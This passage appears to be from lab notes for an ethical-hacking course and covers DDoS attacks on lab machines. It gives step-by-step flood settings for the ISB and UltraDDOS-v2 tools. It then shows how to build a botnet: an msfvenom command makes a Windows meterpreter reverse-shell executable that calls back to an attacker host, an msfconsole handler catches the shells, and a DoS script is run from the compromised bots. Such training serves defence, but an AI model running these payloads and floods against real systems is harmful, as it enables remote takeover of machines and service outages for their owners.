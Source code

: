 #### 1.6 Perform a DDoS Attack using ISB and UltraDDOS-v2

**ISB Tool**    
[ISB](https://sourceforge.net/projects/isb/)

**Steps**:
1. One the ISB tool, ISB window appears, using this tool we can perform various attacks such as HTTP Flood, UDP Flood, TCP Flood, TCP Port Scan, ICMP Flood, and Slowloris. Additionally, we can gather Target Info using the WHOIS, NS, TRACEROUTE, BROWSER, PING options present in the tool.
2. Here, we will perform TCP Flood attack on the target Windows Server 2019 machine. To do so, enter the IP address of the Windows Server 2019 in the URL: field (here, 10.10.1.19), port number (here, 80) in the Port: field and click on Set Target.
3. The IP address of Windows Server 2019 along with the port number appears in the Set: field.
4. Now, under Attacks navigate to TCP Flood tab and type 10 in the Interval field, 256 in the Buffer field and 1000 in the Threads field.
5. Leave the ISB window running and click Windows Server 2022 to switch to the Window Server 2022 machine.    
    
**Ultra DDOS tool**    
[UltraDDOS-v2](https://sourceforge.net/projects/ultraddos/)

**Steps**:
1. Run ultraddos.exe file.
2. A Command Prompt window appears, in the Ultra DDOS v2 window, click OK.
3. In the Ultra DDOS v2 window, click on DDOS Attack button.
4. In the Please enter your target. This is the website or IP address that you want to attack. field, type 10.10.1.19 (IP address of Windows Server 2019 machine) and click OK.
5. In the Please enter a port. 80 is most commonly used, but you can use any other valid port. field, enter 80 and click OK.
6. In the Please enter the number of packets you would like to send. More is better, but too many will crash your computer. field, type 1000000 and click on OK.
7. In the Please enter the number of threads you would like to send. This can be the same number as the packets. field, type 1000000 and click on OK.
8. In the The attack will start once you press OK. It will keep going until all requested packets are sent. pop-up window, click OK.
9. As soon as you click on OK the tool starts DoS attack on the Windows Server 2019 machine.
10. Click Windows 11 to switch to the Windows 11 machine, and in the ISB window click on Start Attack button.
> You can open the resource monitor to view that resources are being exhausted.

#### 1.7 Perform a DDoS Attack using Botnet
- Create a metasploit exploit.
  - `msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.1.13 lport=6969 -f exe > exploit1.exe`
- Similarly make exploits fir each of your bot.
- Now, you can directly run multihandle, running the following command.
  - `msfconsole -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set lhost 10.10.1.13; set lport 6969; run"`
- Now, you can upload scripts to exploited targets.
- [GitHub - WH1T3-E4GL3/eagle-dos: light weight dos attack tool to attack to a single port to any network.s](https://github.com/WH1T3-E4GL3/eagle-dos)
- Now, you can run the script from all your bots.
- Run the DDoS file using command python eagle-dos.py on windows shell terminal. It will ask for Target's IP, type 10.10.1.9 and hit enter.

---